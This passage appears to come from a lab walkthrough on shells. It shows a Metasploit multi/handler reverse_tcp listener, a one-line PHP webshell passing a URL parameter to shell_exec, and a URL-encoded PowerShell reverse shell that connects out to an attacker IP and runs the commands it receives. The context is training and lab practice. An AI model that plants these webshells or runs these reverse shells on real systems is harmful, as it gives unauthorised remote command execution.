
Id  Name
--  ----
0   Wildcard Target


msf6 exploit(multi/handler) > set LHOST <ip>
LHOST => <ip>
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/shell/reverse_tcp
PAYLOAD => windows/x64/shell/reverse_tcp

msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on <ip>:443{% endraw %}{% endcapture %} {% include code.html code=code %}


Once listener receives the connection, a session will be opened. Use `sessions` can be used to list sessions. Use `sessions <id>` to bring the session to foreground.


## Task 11 - WebShells

Use these links as references.
- [PHP reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php){:target="_blank"}


Webshell is a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage either through a HTML form, or directly as arguments in the URL, which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell. Variety of web shells are available in /usr/share/webshells in kali linux.

An example for php webshell is as below.
{% capture code %}{% raw %}<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>{% endraw %}{% endcapture %} {% include code.html code=code %}

An example for powershell webshell is as below.
{% capture code %}{% raw %}powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 12 - Next Steps
